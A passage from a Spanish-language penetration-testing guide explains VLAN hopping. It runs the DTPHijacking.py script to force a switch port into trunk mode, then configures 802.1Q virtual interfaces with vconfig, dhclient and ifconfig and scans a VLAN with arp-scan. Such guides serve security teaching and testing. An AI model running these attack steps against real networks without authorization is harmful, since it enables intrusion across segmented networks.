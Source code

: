 ![](<../../.gitbook/assets/image (269).png>)

Para enumerar las VLANs, también es posible generar el marco DTP Desirable con el script [**DTPHijacking.py**](https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py)\*\*. No interrumpa el script bajo ninguna circunstancia. Inyecta DTP Desirable cada tres segundos. **Los canales de trunk creados dinámicamente en el switch solo viven durante cinco minutos. Después de cinco minutos, el trunk se desconecta.**

```
sudo python3 DTPHijacking.py --interface eth0
```

Quisiera señalar que **Access/Desirable (0x03)** indica que el marco DTP es del tipo Desirable, lo que le dice al puerto que cambie al modo Trunk. Y **802.1Q/802.1Q (0xa5)** indica el tipo de encapsulación **802.1Q**.

Al analizar los marcos STP, **aprendemos sobre la existencia de VLAN 30 y VLAN 60.**

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

#### Atacando VLANs específicas

Una vez que conozcas los IDs de VLAN y los valores de IP, puedes **configurar una interfaz virtual para atacar una VLAN específica**.\
Si DHCP no está disponible, entonces usa _ifconfig_ para establecer una dirección IP estática.

```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
RX packets:19 errors:0 dropped:0 overruns:0 frame:0
TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```

```bash
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```

```bash
# Another configuration example
sudo vconfig add eth0 30
sudo ip link set eth0.30 up
sudo dhclient -v eth0.30
```
